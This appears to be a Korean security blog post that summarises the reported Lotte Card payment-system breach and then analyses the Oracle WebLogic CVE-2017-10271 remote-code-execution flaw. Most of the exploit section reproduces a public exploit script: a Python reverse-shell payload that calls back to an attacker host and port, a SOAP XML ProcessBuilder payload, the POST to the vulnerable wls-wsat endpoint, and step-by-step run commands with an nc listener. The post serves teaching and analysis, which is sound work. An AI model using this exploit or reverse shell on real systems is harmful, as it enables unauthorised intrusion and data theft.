```yaml
---
title:  "2025-08-26 롯데카드 온라인 결제 시스템 해킹 사건 분석"
excerpt: "오라클 웹로직 CVE-2017-10271 취약점에 대해 알아보자. "

categories: [information, cve]
tags:
  - [cve, oracle ]

typora-root-url: ../../
 
date: 2025-09-02
last_modified_at: 2025-09-02
---
```

# 사건 개요
<img src="../../../images/2025-09-01-lottecard/image.png" alt="img" style="zoom:50%;" />

롯데카드 온라인 결제 시스템 해킹 시도 포착…웹쉘 업로드 통한 내부자료 1.7GB 유출 정황

롯데카드 내부 서버 해킹 시도가 실제 데이터 유출로 이어진 정황이 확인됐다. 이번 공격은 단순한 침투 시도를 넘어, 온라인 결제 시스템을 겨냥해 악성코드를 심고 내부 자료를 탈취하는 수준으로 진행된 것으로 알려졌다.

롯데카드는 지난 8월 26일 내부 서버 침해 정황을 포착한 뒤 9월 1일 금융감독원에 관련 사실을 신고했다. 자체 조사 결과, 공격자는 Oracle WebLogic(오라클 웹로직)의 CVE-2017-10271 취약점을 악용해 악성코드를 감염시킨 뒤 웹쉘을 업로드했다. 이를 통해 내부 결제 시스템 자료 약 1.7GB가 외부로 유출된 것으로 파악됐다.

롯데카드는 이번 사고가 랜섬웨어와 같은 직접적 서비스 마비 공격은 아니지만, 온라인 결제 핵심 시스템을 노린 침해였다는 점에서 사안의 심각성이 크다고 보고 있다.

**ISMS-P 획득 이후 발생한 보안 침해 사고**

롯데카드는 지난 8월 12일 정보보호 및 개인정보보호 관리체계(ISMS-P) 인증을 획득하며 보안 강화 노력을 이어온 기업이다. 그러나 불과 2주 만에 온라인 결제 시스템에서 취약점이 악용된 사건이 발생하면서 업계 전반의 보안 체계가 여전히 근본적인 위협에 직면해 있음을 보여준다.

출처 : 데일리시큐(https://www.dailysecu.com)

# CVE-2017-10271
## 취약점 개요
CVE-2017-10271은 Oracle WebLogic Server의 원격 코드 실행(RCE) 취약점으로, 공격자가 특수 제작된 XML 데이터를 전송하여 원격에서 임의의 코드를 실행할 수 있는 심각한 보안 문제이다.

해당 취약점은 WebLogic의 wls-wsat 컴포넌트에 존재하는 역직렬화 취약점으로써, 적절한 인증 없이 원격에서 공격이 가능하다. 공격자는 이를 이용해 웹쉘 업로드, 악성코드 설치, 원격 제어 등 다양한 공격을 수행할 수 있다.

## CVE-2017-10271 exploit 방법
- 공격자는 취약한 WebLogic 서버에 악성 XML 페이로드를 보내 원격 코드 실행 권한 획득
- 이후 PowerShell 스크립트 등을 이용해 공격용 바이너리를 다운로드 및 실행하거나 웹쉘을 업로드
- 공개된 익스플로잇 코드와 Metasploit 모듈이 존재하여 실습 환경에서 원격 코드 실행을 연습 가능


### exploit 소스코드 분석
활용 exploit - [Exploit-DB](https://www.exploit-db.com/exploits/43458)

#### 1. 초기화 및 페이로드 생성
```python
def __init__(self, check, rhost, lhost, lport, windows):
    self.url = rhost if not rhost.endswith('/') else rhost.strip('/')
    self.lhost = lhost
    self.lport = lport
    self.check = check
    if windows:
        self.target = 'win'
    else:
        self.target = 'unix'

    if self.target == 'unix':
        self.cmd_payload = (
            "python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket."
            "SOCK_STREAM);s.connect((\"{lhost}\",{lport}));os.dup2(s.fileno(),0); os.dup2("
            "s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'"
        ).format(lhost=self.lhost, lport=self.lport)
    else:
        self.cmd_payload = (
            r"powershell -w hidden -nop -c function RSC{...}"
            # Windows reverse shell PowerShell 명령 (생략)
        )
    self.cmd_payload = escape(self.cmd_payload)
```
- 공격자가 리스너 호스트(lhost)와 포트(lport)를 입력 받으며 타겟 OS에 맞춰 리버스 쉘 명령을 생성한다.
- 리눅스/유닉스는 Python 쉘, 윈도우는 PowerShell을 사용하고, 생성된 명령은 XML 인젝션 방지를 위해 escape 처리된다.


#### 2. 공격 명령 실행 페이로드(get_process_builder_payload)
```python
def get_process_builder_payload(self):
    process_builder_payload = '''<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
  <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
      <java>
        <object class="java.lang.ProcessBuilder">
          <array class="java.lang.String" length="3" >
            <void index="0">
              <string>{cmd_base}</string>
            </void>
            <void index="1">
              <string>{cmd_opt}</string>
            </void>
            <void index="2">
              <string>{cmd_payload}</string>
            </void>
          </array>
          <void method="start"/>
        </object>
      </java>
    </work:WorkContext>
  </soapenv:Header>
  <soapenv:Body/>
</soapenv:Envelope>
'''
    return process_builder_payload.format(cmd_base=self.cmd_base(), cmd_opt=self.cmd_opt(),
                                  cmd_payload=self.cmd_payload)
```
- Java의 ProcessBuilder 객체를 이용해 셸 명령을 실행하는 SOAP XML 페이로드를 만든다.
- 명령은 리버스 쉘 페이로드가 삽입되어 서버에서 실행된다.


#### 3. payload 전송 및 실행 (post_exploit)
```python
def post_exploit(self, data):
    headers = {
        "Content-Type":
        "text/xml;charset=UTF-8",
        "User-Agent":
        "Mozilla/5.0 ..."
    }
    payload = "/wls-wsat/CoordinatorPortType"

    vulnurl = self.url + payload
    try:
        req = post(
            vulnurl, data=data, headers=headers, timeout=10, verify=False)
        if self.check:
            print("[*] Did you get an HTTP GET request back?")
        else:
            print("[*] Did you get a shell back?")
    except Exception as e:
        print('[!] Connection Error')
        print(e)
```
- 취약한 WebLogic 서버의 wls-wsat 서비스 엔드포인트에 SOAP 페이로드를 POST 방식으로 전송한다.
- check 모드일 때는 HTTP GET 요청 발생 유무를 확인, 아니면 쉘 획득 여부를 확인한다.

### exploit 준비 사항 및 사용 방법
활용 exploit - [Exploit-DB](https://www.exploit-db.com/exploits/43458)

- 취약한 Oracle WebLogic 서버 주소(URL)
- 공격자의 리버스 셸을 받을 IP(lhost) 및 포트(lport) (리스닝 환경 구성 필요)
- Python 3 환경 (requests 라이브러리 필요)
- 리버스 셸 리스닝 도구 (nc 또는 Python HTTP 서버 등)

#### 1. 취약한 서버가 있는 URL, 리버스 쉘을 받을 IP, Port 지정
```bash
python exploit.py -l <공격자_IP> -p <포트> -r http://<취약서버_IP>:7001/
```

#### 2. 윈도우 서버 대상이면 `-w` 옵션 추가하여 윈도우용 페이로드 사용
```bash
python exploit.py -l <공격자_IP> -p <포트> -r http://<취약서버_IP>:7001/ -w
```

#### 3. 취약 여부만 확인하려면 `-c` 옵션을 사용하여 HTTP 요청 체크 실행
```bash
python exploit.py -l <공격자_IP> -p <포트> -r http://<취약서버_IP>:7001/ -c
```

#### 4. 이후 공격자 머신에서 리버스 쉘을 받을 리스너 실행
```bash
nc -nlvp <포트>

또는

python3 -m http.server <포트>
```
스크립트를 실행하면 취약 서버에 XML 페이로드를 전송하여 임의 코드(리버스 셸) 실행을 시도한다. 리스너에서 쉘 접속이 열리면 공격 성공

#### 주요 옵션
- `-l` : 리스너 IP
- `-p` : 리스너 포트
- `-r` : 취약 서버 URL (예: http://10.10.10.10:7001)
- `-c` : 취약점 존재 체크(HTTP 요청만 확인)
- `-w` : 윈도우 대상 페이로드 사용

주의: 반드시 허가된 실습 환경에서만 사용!!

